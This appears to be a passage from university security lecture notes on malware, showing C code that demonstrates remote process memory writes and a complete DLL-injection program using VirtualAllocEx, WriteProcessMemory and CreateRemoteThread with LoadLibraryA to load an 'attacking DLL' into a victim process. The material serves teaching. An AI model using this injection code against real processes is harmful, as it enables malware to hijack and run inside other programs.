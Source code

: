 ```c

	// write "remote hello" into remote memory
	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)szDllName, dwBufSize, NULL);
        // also write it into curr space for comparison
	WriteProcessMemory(hProcessCurr, pRemoteBufCurr, (LPVOID)szDllName, dwBufSize, NULL);

	// pRemoteBuf is the address in the remote process
	printf("buf addr:%p\n", pRemoteBuf);
        // pRemoteBufCurr is the address in the current process
	printf("bufcurr addr:%p\n", pRemoteBufCurr);
	printf("bufcurr:%s\n", pRemoteBufCurr); // we can display string in curr space
	//printf("buf:%s\n", pRemoteBuf);  // (1). but we can't display remote string

	CloseHandle(hProcess);
	CloseHandle(hProcessCurr);
}
```

### 4.11 injectDLL project: Injecting attacking DLL into another process. We can call LoadLibrary in the victim process to inject a DLL program into the victim.

- 1. Access the victim.
- 2. Write DLL name in the victim address space.
- 3. Remotely call LoadLibrary in the victim process (target.exe) to inject attacking DLL. Run target.exe first and run injectDLL. Then, injectDll will inject test.dll into the running target.exe.

injectDLL project:

```c
#include "windows.h"
int main(){
   LPCTSTR szDllName=  // attack dll path
      "D:\\kim\\LectureNotes\\security\\2019\\malware\\test\\Debug\\test.dll";
   // step 1. get handle of victim process
   HANDLE hProcess=
       OpenProcess(PROCESS_ALL_ACCESS,FALSE,1234); // 1234 is victim's pid
   // step 2. alloc mem in target's addr space to store attack dll path to injection code
   DWORD dwBufSize=lstrlen(szDllName)+1;
   LPVOID pRemoteBuf=
      VirtualAllocEx(hProcess,NULL,dwBufSize,MEM_COMMIT,PAGE_READWRITE);
   // step 3. write "test.dll" path into alloc'd mem
   WriteProcessMemory(hProcess,pRemoteBuf,(LPVOID)szDllName,dwBufSize,NULL);
   // step 4. get LoadLibraryA addr which is in kernel32.dll.
   // GetModuleHandle returns the handle of a DLL ("kernel32.dll")
   // GetProcAddress will return address of a function ("LoadLibraryA") in a DLL ("kernel32.dll")
   HMODULE hMod=GetModuleHandle("kernel32.dll");
   LPTHREAD_START_ROUTINE pThreadProc=
      (LPTHREAD_START_ROUTINE)GetProcAddress(hMod,"LoadLibraryA");
   // step 5. run remote thread
   // CreateRemoteThread will make a thread in the victim process ("hProcess").
   // The thread starting location is pThreadProc, and its parameter in pRemoteBuf.
   // This thread will run LoadLibraryA in the victim process which in turn will load testdll.dll
// and run it.
   HANDLE hThread=
      CreateRemoteThread(hProcess,NULL,0,pThreadProc,pRemoteBuf,0,NULL);
   WaitForSingleObject(hThread,INFINITE);
   CloseHandle(hThread);
   CloseHandle(hProcess);

   return TRUE;
}
```
